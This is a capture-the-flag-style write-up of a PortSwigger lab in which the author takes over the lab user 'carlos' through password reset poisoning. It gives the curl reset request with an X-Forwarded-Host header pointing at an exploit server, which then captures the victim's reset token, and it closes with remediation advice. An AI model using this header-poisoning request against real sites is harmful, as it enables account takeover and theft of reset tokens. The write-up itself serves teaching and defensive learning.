










# Lab: Password Reset Poisoning via Middleware

> **Platform:** PortSwigger Web Security Academy  
> **Module:** Authentication vulnerabilities  
> **Lab:** Password Reset Poisoning via Middleware  
> **Lab link:** https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware#  
> **Goal:** Access Carlos' account.

---

## 1. Lab Goal

The goal of this lab was to access `carlos`' account by exploiting a vulnerability in the password reset functionality.

The application is vulnerable to password reset poisoning, and the reset link generation can be influenced through middleware-related headers.

---

## 2. Given Information

The lab gave the following information:

1. Carlos is careless and will click on any link sent to him.
2. The password reset functionality is vulnerable to password reset poisoning.
3. `wiener:peter` are valid credentials.
4. An exploit server and an email client are also available for `wiener`.

---

## 3. Vulnerability Summary

The vulnerability is in the way the application generates password reset links.

Normally, when a user requests a password reset, the application sends a link like this:

```text
https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password?temp-forgot-password-token=s5z903llo88gimd23vv0c0dvjvg9mnlu
```

The important part here is the token:

```text
temp-forgot-password-token=s5z903llo88gimd23vv0c0dvjvg9mnlu
```

That token is what identifies whose password is being reset. So if I can get Carlos' valid reset token, then changing his password becomes easy.

The issue is that the application trusts a header supplied by the request when building the reset link. In this lab, the useful header is:

```http
X-Forwarded-Host
```

By setting `X-Forwarded-Host` to my exploit server address, I can poison the password reset link that is sent to Carlos. Carlos receives a link that looks like a reset link, but the hostname points to my exploit server. When he clicks it, the request reaches my exploit server logs, and I can capture the token from the URL.

---

## 4. Observation / Initial Recon

Like always, I first jumped in to mess around with the site and observe its behavior. I wanted to understand how the application handled login, logout, and password reset requests before trying to exploit anything.

### Login page

I started from the normal login page.



I logged in using the valid credentials:

```text
wiener:peter
```

The login worked successfully.

The login request looked like this:

```bash
curl 'https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/login' \
  --compressed \
  -X POST \
  -H 'Cookie: session=fycbEBoQ1XtN6669ylpMNGaSryXXMLOd' \
  --data-raw 'username=wiener&password=peter'
```

After confirming that the valid login worked, I logged out and moved to the forgot password functionality.

---

## 5. Testing the Password Reset Flow with Wiener

Next, I clicked **Forgot password** and entered `wiener` in the reset form.



After submitting the form, the application told me to check the email client for the reset link.

The POST request for the password reset looked like this:

```bash
curl 'https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password' \
  --compressed \
  -X POST \
  -H 'Cookie: session=P3BbcwttpYsiKTq5ByOMowDIp4IPTws3' \
  --data-raw 'username=wiener'
```

In DevTools, I also noticed the password reset request after submitting `wiener`. It was taking a little longer to process, which made sense because the application was likely generating the reset token and sending the email.



Then I checked `wiener`'s email client and found the password reset link.



The reset link was:

```text
https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password?temp-forgot-password-token=s5z903llo88gimd23vv0c0dvjvg9mnlu
```

At this point, the important observation was clear: the token in the link is what allows the password reset. If I can get Carlos' reset token, I can change Carlos' password.

---

## 6. Hypothesis

My hypothesis was that the password reset link generation is vulnerable to host poisoning.

A common issue in password reset functionality is that the application generates the reset URL using the host supplied in the request instead of the actual trusted host.

So instead of safely generating a link like this:

```text
https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password?temp-forgot-password-token=s5z903llo88gimd23vv0c0dvjvg9mnlu
```

The application may be generating it dynamically like this:

```text
https://{host}/forgot-password?temp-forgot-password-token=s5z903llo88gimd23vv0c0dvjvg9mnlu
```

If the application trusts a header such as `X-Forwarded-Host`, then I can control the `{host}` part of the password reset URL.

That means I can request a password reset for Carlos, but make the reset link point to my exploit server.

---

## 7. Why a Normal Carlos Reset Request Is Not Enough

I want to change the password for `carlos`. But if I simply make the following request, the reset email will be sent to Carlos, and it will not help me because I do not have access to Carlos' email inbox.

```bash
curl 'https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password' \
  --compressed \
  -X POST \
  -H 'Cookie: session=P3BbcwttpYsiKTq5ByOMowDIp4IPTws3' \
  --data-raw 'username=carlos'
```

So the normal password reset flow is not directly useful.

The important idea is not just to send Carlos a reset email. The important idea is to poison the reset link so that when Carlos clicks it, the token gets leaked to my exploit server.

---

## 8. Exploit Server Setup

The lab also gives an exploit server, so I used that as the attacker-controlled host.



I copied the exploit server host address.



The exploit server host was:

```text
exploit-0a8a008104771de883cb90fd01bf0087.exploit-server.net
```

This is the host I used in the `X-Forwarded-Host` header.

---

## 9. Exploitation Steps

To test the hypothesis, I sent a password reset request for `carlos`, but added the `X-Forwarded-Host` header with my exploit server address.

```bash
curl 'https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password' \
  --compressed \
  -X POST \
  -H 'X-Forwarded-Host: exploit-0a8a008104771de883cb90fd01bf0087.exploit-server.net' \
  --data-raw 'username=carlos'
```

This sends a password reset link to Carlos, but the link contains the address of my exploit server instead of the real lab host.

The logic is simple:

1. I request a password reset for `carlos`.
2. I poison the generated reset link using `X-Forwarded-Host`.
3. Carlos receives the reset link.
4. Because Carlos is careless and clicks any link sent to him, he clicks it.
5. The browser tries to open the poisoned reset link.
6. The request hits my exploit server.
7. The full URL appears in the exploit server logs.
8. The URL contains Carlos' valid password reset token.

The exploit server logs showed that the victim tried to access a specific URL, and that URL contained the reset token.



After getting the token from the exploit server logs, I used it with the real lab host to open Carlos' password reset page.

The reset page showed the new password and confirm password fields.



I entered a new password and submitted the form. The application confirmed that the password was changed.

After that, I went back to the login page and logged in as `carlos` using the new password.



The login worked, and the lab was solved.



---

## 10. Evidence

### Valid login request for Wiener

```bash
curl 'https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/login' \
  --compressed \
  -X POST \
  -H 'Cookie: session=fycbEBoQ1XtN6669ylpMNGaSryXXMLOd' \
  --data-raw 'username=wiener&password=peter'
```

### Password reset request for Wiener

```bash
curl 'https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password' \
  --compressed \
  -X POST \
  -H 'Cookie: session=P3BbcwttpYsiKTq5ByOMowDIp4IPTws3' \
  --data-raw 'username=wiener'
```

### Password reset link received by Wiener

```text
https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password?temp-forgot-password-token=s5z903llo88gimd23vv0c0dvjvg9mnlu
```

### Normal Carlos reset request

This request would send a link to Carlos, but it would not help me directly because I do not have access to Carlos' email.

```bash
curl 'https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password' \
  --compressed \
  -X POST \
  -H 'Cookie: session=P3BbcwttpYsiKTq5ByOMowDIp4IPTws3' \
  --data-raw 'username=carlos'
```

### Poisoned Carlos reset request

This is the important request. The `X-Forwarded-Host` header points to my exploit server.

```bash
curl 'https://0a95001604f91d2e83bf9106008b0060.web-security-academy.net/forgot-password' \
  --compressed \
  -X POST \
  -H 'X-Forwarded-Host: exploit-0a8a008104771de883cb90fd01bf0087.exploit-server.net' \
  --data-raw 'username=carlos'
```

### Important header

```http
X-Forwarded-Host: exploit-0a8a008104771de883cb90fd01bf0087.exploit-server.net
```

### Important finding

The reset token is the sensitive part of the URL:

```text
temp-forgot-password-token=<carlos-reset-token>
```

Once this token appeared in the exploit server logs, I could use it on the real lab host to reset Carlos' password.

---

## 11. Remediation / Fix

The application should not trust user-controlled headers when generating password reset links.

To fix this issue:

- The password reset URL should be generated using a trusted, server-side configured domain.
- Headers like `Host`, `X-Forwarded-Host`, `X-Host`, and similar forwarding headers should not be blindly trusted.
- If the application is behind a reverse proxy, only trusted proxies should be allowed to set forwarding headers.
- Password reset tokens should be high entropy, single use, and should expire quickly.
- The application should avoid leaking reset tokens through logs, analytics, redirects, or third-party systems.
- Users should be shown clear information about the domain they are visiting before submitting new passwords.

A safer reset link generation approach would be to hardcode or server-configure the trusted public hostname instead of deriving it from request headers.

---

## 12. Lessons Learned

- Password reset tokens are extremely sensitive because they can directly allow account takeover.
- If the application reflects a user-controlled host into a reset link, the reset flow can become vulnerable to password reset poisoning.
- `X-Forwarded-Host` is useful to test when the lab mentions middleware or proxy-related behavior.
- Sending a reset link to the victim is not enough; the attacker needs a way to make the victim leak the token.
- The exploit server logs are useful because they show the full URL that the victim tried to visit.

---

## 13. Final Summary

This lab demonstrated password reset poisoning through a middleware-related header. I first tested the normal password reset flow with `wiener` and confirmed that the reset token in the URL was the important value. Then I requested a password reset for `carlos` while adding an `X-Forwarded-Host` header pointing to my exploit server. When Carlos clicked the poisoned link, his reset token appeared in my exploit server logs. I used that token on the real lab host, changed Carlos' password, logged in as Carlos, and solved the lab.
